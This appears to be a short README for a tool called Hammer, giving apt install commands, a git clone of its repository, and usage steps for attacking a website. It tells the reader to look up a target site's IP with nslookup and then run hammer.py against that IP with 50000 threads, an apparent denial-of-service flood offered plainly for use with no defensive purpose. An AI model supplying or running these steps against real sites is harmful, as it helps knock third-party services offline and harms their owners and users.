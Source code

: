 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/cyberanand1337x/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 50000<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 50000<br>
